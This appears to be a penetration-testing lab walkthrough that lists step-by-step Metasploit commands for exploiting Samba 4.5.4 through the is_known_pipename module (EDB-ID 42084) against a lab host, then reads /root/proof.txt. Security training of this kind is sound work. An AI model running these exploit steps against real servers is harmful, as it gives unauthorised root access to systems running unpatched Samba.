








Attack Vector 5 - Windows 6.1 Samba 4.5.4-Ubuntu

Notice the result from os-smb-discovery

Google search for: Windows 6.1 Samba 4.5.4

Choose the exploit-db link. **EDB-ID: 42084**
Notice that it requires metasploit

Start postgresql
`sudo systemctl postgresql start`

Start the msfconsole without ascii banner
`sudo msfconsole -q`

Search for 'is_known_pipename' and select it
`search is_known_pipename`
`use 0`

Show options
`show options`

Change rhosts to the target IP
`set rhosts 10.11.1.146`

Verify that the change to rhosts was made
`show options`

Check to see if the exploit will work
`check`

Run the exploit command
`exploit`

Check id
`whoami`

Check what directory we're in
`pwd`

Check what files are in /root
`ls -la /root/*`

Read /root/proof.txt file
`cat /root/proof.txt`

